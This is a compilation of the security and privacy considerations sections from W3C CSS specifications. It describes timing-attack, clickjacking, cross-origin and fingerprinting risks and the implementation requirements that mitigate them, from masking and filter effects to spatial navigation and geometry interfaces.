The `image-animation` property enables control over image animation cross-origin, without leaking any information about whether the image is actually animatable or not. The computed value does not change based on this information. The `running` value has effects that are visibly different on animated images vs static images, but none of these differences are observable by the page itself.

The `:animated-image` pseudo class does reveal whether a declarative image represended by the element is animated or static, which the page could not otherwise know cross-origin. This could be restricted via CORS, but this specification chooses not to impose such restriction, for the following reasons:

- There is not much to be gained from this information that isn’t already known.

  - Whether an image is present at the target URL at all can reveal important information about the user (e.g. whether they are logged in in a particular domain), but that is already knowable from image dimensions, and animatability does not meaningfully add to this risk.
  - It is in practice very unlikely that a site would be designed to serve both a static and an animated image from the same URL, choosing which to serve based on some user-dependent private information which would thereby get leaked.
- Similar information is already being shared for videos: the HTML `video` element exposes duration even for cross-origin videos. A static image is arguably a special case of an animated one with a duration of 0, so exposing that information is analogous.
- There is a proposal to allow images in the `<video>` element. If implemented, it means the situation would not just be analogous, but that whether an image is animated would already be knowable cross-origin anyway.

Additionally, if a user agent offers a setting to suppress image animations, the interaction of that setting with the `:animated-image` pseudo class can potentially be a source of fingerprinting information, as discussed [in the corresponding section](#css-image-animation-1:global-setting-fingerprint).

### CSS Masking Module Level 1 (`css-masking-1`) {#security-privacy:css-masking-1}

#### 10. Privacy Considerations {#css-masking-1:priv}

It is important that the timing to the masking operations is independent of the source and destination pixel. Masking operations must be implemented in such a way that they always take the same amount of time regardless of the pixel values. If this rule is not followed, an attacker could infer information and mount a timing attack.

A timing attack is a method of obtaining information about content that is otherwise protected, based on studying the amount of time it takes for an operation to occur. If, for example, red pixels took longer to draw than green pixels, one might be able to reconstruct a rough image of the element being rendered, without ever having access to the content of the element.

While CSS capabilities like those defined in this module can be used to hide content from a site visitor, Web developers should not use these features to hide *sensitive* content from users or page scripts. Content that is hidden from a user’s display via CSS can still be accessed and read from page scripts or form submissions. Web developers should treat the capabilities in this spec (as with all CSS specs) as cosmetic changes only, and not imposing or defending a privacy boundary.

#### 11. Security Considerations {#css-masking-1:sec}

`<mask-source>`s and `<clip-source>`s have special requirements on fetching resources.

User agents must use the [potentially CORS-enabled fetch](https://fetch.spec.whatwg.org/#main-fetch) method defined by the [FETCH] specification for all `<mask-source>`, `<clip-source>` and `<image>` values on the `mask-image`, `mask-border-source` and `clip-path` properties. When fetching, user agents must use “Anonymous” mode, set the referrer source to the stylesheet’s URL and set the origin to the URL of the containing document. If this results in network errors, the effect is as if the value `none` had been specified.

### Compositing and Blending Module Level 2 (`compositing-2`) {#security-privacy:compositing-2}

#### Security Considerations {#compositing-2:security}

It is important that the timing to the blending and compositing operations is independent of the source and destination pixel. Operations must be implemented in such a way that they always take the same amount of time regardless of the pixel values.

> **Note:** If this rule is not followed, an attacker could infer information and mount a timing attack.
>
> A timing attack is a method of obtaining information about content that is otherwise protected, based on studying the amount of time it takes for an operation to occur. If, for example, red pixels took longer to draw than green pixels, one might be able to reconstruct a rough image of the element being rendered, without ever having access to the content of the element.

### Filter Effects Module Level 1 (`filter-effects-1`) {#security-privacy:filter-effects-1}

#### 15. Privacy Considerations {#filter-effects-1:privacy}

##### 15.1. Tainted Filter Primitives {#filter-effects-1:tainted-filter-primitives}

It is important that the timing of any filter operation is independent of pixel values derived from the filtered content or other sources potentially containing privacy-sensitive information.

The following filter primitives may have access to pixel values that potentially contain privacy-sensitive information, either from the filtered object itself or other sources such as CSS styling. These primitives must be flagged as "tainted".

1. feFlood when the specified value of the `flood-color` property computes to currentColor,
2. feDropShadow when the specified value value of the `flood-color` property computes to currentColor,
3. feDiffuseLighting, when the specified value value of the `lighting-color` property computes to currentColor
4. feSpecularLighting when the specified value value of the `lighting-color` property computes to currentColor,
5. feImage, when the `<url>` reference points to an element or fetches a resource with the fetching mode *No-CORS* and
6. the filter primitives: SourceGraphic, SourceAlpha, BackgroundImage, BackgroundAlpha, FillPaint and StrokePaint.

feFlood, feDropShadow, feDiffuseLighting and feSpecularLighting are primitives with one or more CSS properties that take `<color>` as property value. <color> consists of (amongst others) the currentColor keyword. The used value for currentColor derives from the `color` property. Since `color` can be set by the `:visited` pseudo selector, it potentially contains privacy-sensitive information and therefore these primitives must be marked as tainted.

feImage can reference cross-domain images as well as document fragments such as SVG graphics elements. These references potentially contain privacy-sensitive information and therefore the primitive must be marked as tainted.

The filter primitives SourceGraphic, SourceAlpha, BackgroundImage, BackgroundAlpha, FillPaint and StrokePaint either reference document fragments such as SVG graphics elements or style information that may derive directly or indirectly from the `color` property. Therefore these primitives must be marked as tainted.

Every filter primitive that has a "tainted" flagged filter primitive as input must be flagged as "tainted" as well.

Filter operations must be implemented in such a way that they always take the same amount of time regardless of the pixel values if one of the input filter primitives is flagged as "tainted".

> **Note:** This specification aggravates the restrictions to filter primitives based on implementation feedback from user agents.

##### 15.2. feDisplacementMap Restrictions {#filter-effects-1:fedisplacemnentmap-restrictions}

If feDisplacementMap has a "tainted" flagged filter primitive as input and this input filter primitive is used as displacement map (referenced by in2), then feDisplacementMap must not proceed with the filter operation and acts as a pass through filter.

##### 15.3. Origin Restrictions {#filter-effects-1:origin-restrictions}

User agents must use the CORS request defined by the [Fetch] specification for the `filter` property. When fetching, user agents must use "Anonymous" mode, set the referrer source to the stylesheet’s URL and set the origin to the URL of the containing document. If this results in network errors, the effect is as if the value `none` had been specified.

##### 15.4. Timing Attacks {#filter-effects-1:timing-attack}

If any of the above rules are not followed, an attacker could infer information and mount a timing attack.

A timing attack is a method of obtaining information about content that is otherwise protected, based on studying the amount of time it takes for an operation to occur. If, for example, red pixels took longer to draw than green pixels, one might be able to reconstruct a rough image of the element being rendered, without ever having access to the content of the element. Security studies show that timing differences on arithmetic operations can be caused by the hardware architecture or compiler [ArTD].

##### 15.5. Clickjacking Attacks {#filter-effects-1:clickjacking-attack}

User agents should not apply SVG reference filters (e.g., filter or backdrop-filter) to pixel data from cross-origin/restricted iframes or web plugins. If this is permitted, it allows the manipulation of otherwise inaccessable frames, potentially causing users to take actions they might not otherwise. See the Clickjacking section of [HTML Spec](https://html.spec.whatwg.org/multipage/introduction.html#writing-secure-applications-with-html).

#### 16. Security Considerations {#filter-effects-1:security}

Besides the security implications of the privacy issues noted above, no additional security implications are noted for this spec.

### Filter Effects Module Level 2 (`filter-effects-2`) {#security-privacy:filter-effects-2}

#### 4. Privacy and Security Considerations {#filter-effects-2:priv-sec}

All of the same privacy and security concerns exist for backdrop-filter as do for "standard" filters. See [Filter Effects 1 § 15.1 Tainted Filter Primitives](#filter-effects-1:tainted-filter-primitives) for more details.

### CSS Transforms Module Level 1 (`css-transforms-1`) {#security-privacy:css-transforms-1}

#### 13. Privacy Considerations {#css-transforms-1:privacy}

UAs must implement transform operations in a way attackers can not infer information and mount a timing attack.

A timing attack is a method of obtaining information about content that is otherwise protected, based on studying the amount of time it takes for an operation to occur.

At this point there are no information about potential privacy concerns specific to this specification.

### CSS Easing Functions Module Level 2 (`css-easing-2`) {#security-privacy:css-easing-2}

#### Privacy Considerations {#css-easing-2:privacy}

No new privacy considerations have been reported on this specification.

This specification does not directly introduce any new capabilities to the Web platform but rather provides common definitions that may be referenced by other specifications.

#### Security Considerations {#css-easing-2:security}

Specifications referencing the features defined in this specification should consider that while easing functions most commonly take an input progress value in the range [0,1] and produce an output progress value in the range [0, 1], this is not always the case. Applications of easing functions should define the behavior for inputs and outputs outside this range to ensure they do not introduce new security considerations.

### CSS Transitions Module Level 1 (`css-transitions-1`) {#security-privacy:css-transitions-1}

#### 8. Security Considerations {#css-transitions-1:security}

*This section is not normative.*

The security implications of this specification are limited because it doesn’t allow Web content to do things that it could not do before. Rather, it allows things that could previously be done with script to be done declaratively, and it ways that implementations can optimize (for frame rate and CPU usage).

One of the major categories of optimizations that implementations can make is implementing animation of certain high-value properties (such as `transform` and `opacity`) run on a browser’s compositor thread or process without updating style or layout on the main Web content thread unless up-to-date style data are needed. This optimization often requires allocations of graphics memory to display the contents of the element being animated. Implementations should take care to ensure that Web content cannot trigger unsafe out-of-memory handling by using large numbers of animations or animations on elements covering large areas (where large may be defined in terms of pre-transform or post-transform size).

#### 9. Privacy Considerations {#css-transitions-1:privacy}

*This section is not normative.*

As for security, the privacy considerations of this specification are limited because it does not allow Web content to do things that it could not do before.

This specification may provide additional mechanisms that help to determine characteristics of the user’s hardware or software. However, ability to determine performance characteristics of the user’s hardware or software is common to many Web technologies, and this specification does not introduce new capabilities.

As described in [§ 10 Accessibility Considerations](#css-transitions-1:accessibility), implementations may provide mitigations to help users with disabilities. These mitigations are likely to be detectable by Web content, which means that users who would benefit from these mitigations may face a tradeoff between keeping their disability private from the Web content or benefiting from the mitigation.

### CSS View Transitions Module Level 2 (`css-view-transitions-2`) {#security-privacy:css-view-transitions-2}

#### Security Considerations {#css-view-transitions-2:sec}

The images generated using capture the image algorithm could contain cross-origin data (if the Document is embedding cross-origin resources) or sensitive information like visited links. The implementations must ensure this data can not be accessed by the Document. This should be feasible since access to this data should already be prevented in the default rendering of the Document.

To prevent cross-origin issues, at this point cross-document view transitions can only be enabled for same-origin navigations. As discussed in [WICG/view-transitions#200](https://github.com/WICG/view-transitions/issues/200), this still presents two potential threats:

1. The cross-origin isolated capability in both documents might be different. This can cause a situation where a `Document` that is cross-origin isolated can read image data from a document that is not cross-origin isolated. This is already mitigated in [CSS View Transitions 1 §  Security Considerations](#css-view-transitions-2:sec), as the same restriction applies for captured cross-origin iframes.
2. A same-origin navigation might still occur via a cross-origin redirect, e.g. `https://example.com` links to `https://auth-provider.com/` which redirects back to `https://example.com/loggedin`.

   This can cause a (minor) situation where the cross-origin party would redirect the user to an unexpected first-party URL, causing an unexpected transition and obfuscating that fact that there was a redirect. To mitigate this, currently view transitions are disabled for navigations if the `Document` was created via cross-origin redirects. Note that this check doesn’t apply when the `Document` is being reactivated, as in that case the cross-origin redirect has already taken place.

   > **Note:** this only applies to server-side redirects. A client-side redirect, e.g. using [^meta/http-equiv/refresh^], is equivalent to a new navigation.
3. This feature exposes more information to CSS, as so far CSS was not aware of anything navigation-related. This can raise concerns around safety 3rd-party CSS. However, as a general rule, 3rd-party stylesheets should come from trusted sources to begin with, as CSS can learn about the document or change it in many ways.

See [Issue #8684](https://github.com/w3c/csswg-drafts/issues/8684) and [WICG/view-transitions#200](https://github.com/WICG/view-transitions/issues/200) for detailed discussion.

### CSS Overscroll Behavior Module Level 2 (`css-overscroll-2`) {#security-privacy:css-overscroll-2}

#### 8. Security Considerations {#css-overscroll-2:security}

There are no known security impacts of this feature. The feature may be used to prevent certain native UI features such as overscroll affordances and overscroll navigations (e.g., pull-to-refresh, swipe navigations). However, this does not expose any additional abilities beyond what is already possible in the platform e.g., by preventing the default action of the event that would cause a scroll.

### CSS Scroll Snap Module Level 1 (`css-scroll-snap-1`) {#security-privacy:css-scroll-snap-1}

#### 7. Privacy Considerations {#css-scroll-snap-1:privacy}

This specification does not expose any information whatsoever that is not already exposed to the DOM directly; it just makes scrolling slightly more functional. There are no new privacy considerations.

#### 8. Security Considerations {#css-scroll-snap-1:security}

This specification does not expose any information whatsoever that is not already exposed to the DOM directly; it just makes scrolling slightly more functional. There are no new security considerations.

### CSS Scrollbars Styling Module Level 1 (`css-scrollbars-1`) {#security-privacy:css-scrollbars-1}

#### Appendix C. Security and Privacy {#css-scrollbars-1:security-privacy-considerations}

This appendix is *non-normative*.

##### Self-review questionnaire {#css-scrollbars-1:security-privacy-self-review}

Per the  [Self-Review Questionnaire: Security and Privacy: Questions to Consider](https://www.w3.org/TR/security-privacy-questionnaire/#questions)

1. Does this specification deal with personally-identifiable information?

   No.
2. Does this specification deal with high-value data?

   No.
3. Does this specification introduce new state for an origin that persists across browsing sessions?

   No.
4. Does this specification expose persistent, cross-origin state to the web?

   No.
5. Does this specification expose any other data to an origin that it doesn’t currently have access to?

   No.
6. Does this specification enable new script execution/loading mechanisms?

   No.
7. Does this specification allow an origin access to a user’s location?

   No.
8. Does this specification allow an origin access to sensors on a user’s device?

   No.
9. Does this specification allow an origin access to aspects of a user’s local computing environment?

   No.
10. Does this specification allow an origin access to other devices?

   No.
11. Does this specification allow an origin some measure of control over a user agent’s native UI?

   Yes. The `scrollbar-*` properties enable the page to change the color and width of the scrollbar of the user agent’s native UI, e.g. scrollbars on the page’s window, on framed content embedded in the page, or on overflowing elements with scrollbars in the page.
12. Does this specification expose temporary identifiers to the web?

   No.
13. Does this specification distinguish between behavior in first-party and third-party contexts?

   No.
14. How should this specification work in the context of a user agent’s "incognito" mode?

   No differently.
15. Does this specification persist data to a user’s local device?

   No.
16. Does this specification have a "Security Considerations" and "Privacy Considerations" section?

   Yes.
17. Does this specification allow downgrading default security characteristics?

   No.

### CSS Basic User Interface Module Level 4 (`css-ui-4`) {#security-privacy:css-ui-4}

#### Appendix C: Privacy Considerations {#css-ui-4:privacy}

This appendix is *informative*.

The W3C TAG is developing a [Self-Review Questionnaire: Security and Privacy](https://w3ctag.github.io/security-questionnaire/) for editors of specifications to informatively answer.

Per the [Questions to Consider](https://w3ctag.github.io/security-questionnaire/#questions)

**Does this specification deal with personally-identifiable information?**

: No.

**Does this specification deal with high-value data?**

: No.

**Does this specification introduce new state for an origin that persists across browsing sessions?**

: No.

**Does this specification expose persistent, cross-origin state to the web?**

: No.

**Does this specification expose any other data to an origin that it doesn’t currently have access to?**

: No.

**Does this specification allow an origin access to a user’s location?**

: No.

**Does this specification allow an origin access to sensors on a user’s device?**

: Yes.

  The directional focus navigation properties indirectly allow access to the device’s keyboard navigation input mechanism such as arrow keys.

**Does this specification allow an origin access to aspects of a user’s local computing environment?**

: No.

**Does this specification allow an origin access to other devices?**

: No.

**Does this specification expose temporary identifiers to the web?**

: No.

**Does this specification distinguish between behavior in first-party and third-party contexts?**

: No.

**How should this specification work in the context of a user agent’s "incognito" mode?**

: No differently.

**Does this specification persist data to a user’s local device?**

: No.

#### Appendix D: Security Considerations {#css-ui-4:security}

This appendix is *informative*.

The W3C TAG is developing a [Self-Review Questionnaire: Security and Privacy](https://w3ctag.github.io/security-questionnaire/) for editors of specifications to informatively answer.

Per the [Questions to Consider](https://w3ctag.github.io/security-questionnaire/#questions)

**Does this specification enable new script execution/loading mechanisms?**

: Yes to loading, but not to execution.

  The `cursor` property accepts `<image>` values which may include URLs to be loaded. These may be SVG documents which may contain scripts, but this specification requires that scripts must not be run.

**Does this specification allow an origin some measure of control over a user agent’s native UI?**

: Yes.

  The `cursor` and `caret` property and sub-properties enable the page to change the display of the cursor and text insertion caret of the user agent’s native UI. In addition the `outline-style` property’s `auto` value (and thus `outline` shorthand) enable the page to potentially display a native focused element outline presentation around any element.

  The `appearance` property also allows author to turn off native styling and replace it with css based styling.

**Does this specification allow downgrading default security characteristics?**

: No.

### CSS Spatial Navigation Module Level 1 (`css-spatial-nav-1`) {#security-privacy:css-spatial-nav-1}

#### Appendix B. Privacy and Security Considerations {#css-spatial-nav-1:priv-sec}

The specification contributors believe that all known potential security risks associated with this specification have been adequately addressed. Further details are provided below.

The TAG has developed a self-review questionnaire to help editors and Working Groups evaluate the risks introduced by their specifications. Answers are provided below.

**Does this specification deal with personally-identifiable information?**

: No.

**Does this specification deal with high-value data?**

: No.

**Does this specification introduce new state for an origin that persists across browsing sessions?**

: No.

**Does this specification expose persistent, cross-origin state to the web?**

: No.

**Does this specification expose any other data to an origin that it doesn’t currently have access to?**

: Mostly, no.

  The one exception identified would be in the following scenario: if the author uses `window.navigate` while the focus is in a cross origin iframe, if they don’t get an event at all it means that either there was something scrollable or focusable within the iframe, as the only case where they’d get an event is when the search didn’t find anything at all goes up the tree.

  This is so limited information that it does not seem it would introduces real a security risk, but it is as far as the editors can tell information that the author could not get could not get otherwise.

**Does this specification enable new script execution/loading mechanisms?**

: No.

**Does this specification allow an origin access to a user’s location?**

: No.

**Does this specification allow an origin access to sensors on a user’s device?**

: No.

**Does this specification allow an origin access to aspects of a user’s local computing environment?**

: No.

**Does this specification allow an origin access to other devices?**

: No.

**Does this specification allow an origin some measure of control over a user agent’s native UI?**

: No control is given over the appearance of the user agent’s UI. Some control is given over how the user agent performs spatial navigation, which may be considered part of its user interface. This is intentional, to let the author tailor the behavior of spatial navigation to their pages. To prevent malicious the author to interfere with the users' desire to control focus and navigate the document, this overriding mechanism is disabled by default for cross-origin iframes. See [§ 7 The navigation-override policy-controlled feature](#css-spatial-nav-1:policy-feature).

**Does this specification expose temporary identifiers to the web?**

: No.

**Does this specification distinguish between behavior in first-party and third-party contexts?**

: No.

**How should this specification work in the context of a user agent’s "incognito" mode?**

: No Difference.

**Does this specification persist data to a user’s local device?**

: No.

**Does this specification have a "Security Considerations" and "Privacy Considerations" section?**

: Yes, this is the section you are reading now.

**Does this specification allow downgrading default security characteristics?**

: It does not allow downgrading any unrelated security mechanism.

  It **does** allow the author to opt into allowing the events needed to override the default behavior of spatial navigation in cross origin iframes they trust using [feature-policy]. See [§ 7 The navigation-override policy-controlled feature](#css-spatial-nav-1:policy-feature).

### CSS Custom Highlight API Module Level 1 (`css-highlight-api-1`) {#security-privacy:css-highlight-api-1}

#### Appendix A. Privacy Considerations {#css-highlight-api-1:priv}

*This section is non-normative*.

This specification is not thought to introduce any new privacy concern. Anyone suspecting that this is not accurate is encouraged to get in touch with the CSS Working Group or the co-editors.

#### Appendix B. Security Considerations {#css-highlight-api-1:sec}

*This section is non-normative*.

This specification is not thought to introduce any new security concern. Anyone suspecting that this is not accurate is encouraged to get in touch with the CSS Working Group or the co-editors.

### CSSOM View Module Level 1 (`cssom-view-1`) {#security-privacy:cssom-view-1}

#### 15. Privacy Considerations {#cssom-view-1:privacy}

The `Screen` interface exposes information about the user’s display configuration, which maybe be used as input to fingerprinting algorithms. User agents may choose to hide or quantize information about the screen size or configuration, in order to protect the user’s privacy.

`MouseEvent` contains information about the screen-relative coordinates of the event. User agents may set these properties to values that obscure the actual screen-relative location of the event, in order to protect the user’s privacy.

### Geometry Interfaces Module Level 1 (`geometry-1`) {#security-privacy:geometry-1}

#### 8. Security Considerations {#geometry-1:security}

The `DOMMatrix` and `DOMMatrixReadOnly` interfaces have entry-points to parsing a string with CSS syntax. Therefore the  [security considerations](#css-syntax-3:security) of the CSS Syntax specification apply. [CSS3-SYNTAX]

> **Example:** This could potentially be used to exploit bugs in the CSS parser in a user agent.

There are no other known security or privacy impacts of the interfaces defined in this specification. However, other specifications that have APIs that use the interfaces defined in this specification could potentially introduce security or privacy issues.

#### 9. Privacy Considerations {#geometry-1:priv-sec}

> **Example:** For example, the `getBoundingClientRect()` API defined in CSSOM View returns a `DOMRect` that could be used to measure the size of an inline element containing some text of a particular font, which exposes information about whether the user has that font installed. That information, if used to test many common fonts, can then be personally-identifiable information. [CSSOM-VIEW]
